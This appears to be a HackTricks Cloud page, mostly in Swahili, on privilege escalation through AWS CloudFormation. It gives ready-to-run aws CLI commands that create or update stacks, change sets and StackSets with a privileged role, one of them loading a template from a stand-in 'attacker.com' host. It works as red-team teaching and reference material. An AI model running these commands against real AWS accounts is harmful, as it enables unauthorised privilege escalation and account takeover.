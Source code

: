 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Kwa maelezo zaidi kuhusu cloudformation angalia:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Mshambuliaji mwenye ruhusa hizi **anaweza kupandisha mamlaka** kwa kutunga **CloudFormation stack** yenye kiolezo maalum, kilichohifadhiwa kwenye seva yao, ili **kutekeleza vitendo chini ya ruhusa za jukumu lililobainishwa:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Katika ukurasa ufuatao una mfano wa **kuvamia** na ruhusa ya ziada **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Katika kesi hii unaweza **kudhulumu stack ya cloudformation iliyopo** ili kuisasaisha na kupandisha ruhusa kama ilivyo katika hali ya awali:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipewe ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Ikiwa una ruhusa hii lakini **hakuna `iam:PassRole`** bado unaweza **kusaidia stacks** zilizotumika na kutumia **IAM Roles walizo tayari wameambatanisha**. Angalia sehemu ya awali kwa mfano wa exploit (usionyeshe jukumu lolote katika sasisho).

The `cloudformation:SetStackPolicy` ruhusa inaweza kutumika **kujipewe ruhusa ya `UpdateStack`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa huduma ya cloudformation iliyotajwa tayari.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Mshambuliaji mwenye ruhusa za **kupitisha jukumu na kuunda & kutekeleza ChangeSet** anaweza **kuunda/sasisha stack mpya ya cloudformation kutumia huduma za cloudformation** kama ilivyo kwa CreateStack au UpdateStack.

Exploit ifuatayo ni **tofauti ya**[ **CreateStack moja**](./#iam-passrole-cloudformation-createstack) ikitumia **ruhusa za ChangeSet** kuunda stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` permission can be used to **kujipa ruhusa za `ChangeSet`** juu ya stack na kufanya shambulio.

**Athari Zinazoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Hii ni kama njia ya awali bila kupitisha **majukumu ya IAM**, hivyo unaweza tu **kutumia yale yaliyounganishwa tayari**, badilisha tu parameter:
```
--change-set-type UPDATE
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya cloudformation ambayo tayari imeunganishwa.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Mshambuliaji anaweza kutumia ruhusa hizi kuunda/update StackSets ili kutumia majukumu ya cloudformation yasiyo na mipaka.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya huduma ya cloudformation.

### `cloudformation:UpdateStackSet`

Mshambuliaji anaweza kutumia ruhusa hii bila ruhusa ya passRole kuupdate StackSets ili kutumia majukumu ya cloudformation yaliyounganishwa.

**Madhara Yanayoweza Kutokea:** Privesc kwa majukumu ya cloudformation yaliyounganishwa.

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
